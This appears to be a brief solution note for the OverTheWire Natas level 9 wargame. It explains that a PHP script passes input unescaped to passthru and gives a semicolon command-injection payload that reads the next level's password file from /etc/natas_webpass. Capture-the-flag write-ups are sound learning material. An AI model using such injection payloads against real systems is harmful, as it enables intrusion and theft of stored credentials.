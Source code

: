 # URL: http://natas9.natas.labs.overthewire.org/

# Solution:

Check how PHP script is passing your input unescaped to `passthru`.  
`;cd ../../../../../../../../etc/natas_webpass;cat natas10;`
